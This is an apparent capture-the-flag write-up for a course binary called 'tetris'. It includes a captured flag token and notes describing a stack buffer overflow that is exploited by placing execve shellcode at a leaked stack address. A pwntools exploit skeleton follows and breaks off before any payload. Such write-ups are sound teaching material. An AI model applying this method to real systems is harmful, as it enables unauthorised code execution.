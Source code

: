 tetris
==============================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMy10ZXRyaXMiLCJpcCI6IjE0NC4xMzYuMjguMzYiLCJzZXNzaW9uIjoiMjg3NDMyNDktNTkwNi00ZWJhLTk2NjktMDRkZTBlMmY0ZWQ1In0.Wsywe6PLILrUQ6ji_24epzASzRo-OiUlgMrRCx5c9pw}
General overview of problems faced
--------------------------------------------------
Options given.
Option 1: calls fgets, no format strings vuln from initial inspection.
Option 2: Prints out highscores to stdout. Bunch of puts calls, maybe can be used to leak.
Option 3: puts and printf called here. Possible leak source.
Password checks for len == 0x54.
Option 4: Chess game? No idea what use this will be in my endeavours
May be able to call eax at 0x804901d
Inserted 0x53 characteres as password input (sent a's) and we get a stack pointer. This pointer points to our buffer that was used to store our input (examine using pwngdb)
We can store shellcode into this address' buffer. We just need to
find a way to call this address.
The get_name function fgets more bytes than the buffer size, so this is buffer is overflowable.
The read_option function takes in this buffer.
No win function, probably means I gotta execve with some shellcode.
Need to create a payload with shellcode with overall 0x53 bytes.
Additionally, they must not contain null bytes or else it will end the payload prematurely.
Need to fill remaining bytes with something, and we have to detect how many bytes the shellcode takes to know how many filler bytes to use.
Stack address gets read in as b'...', so I gotta convert that to a string format and get rid of the b's and the ' and the null terminator at the end.
Need to know how many bytes to fill the payload before we hit the return address, and account for alignment.

--------------------------------------------------
```
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './tetris' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 10922 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
```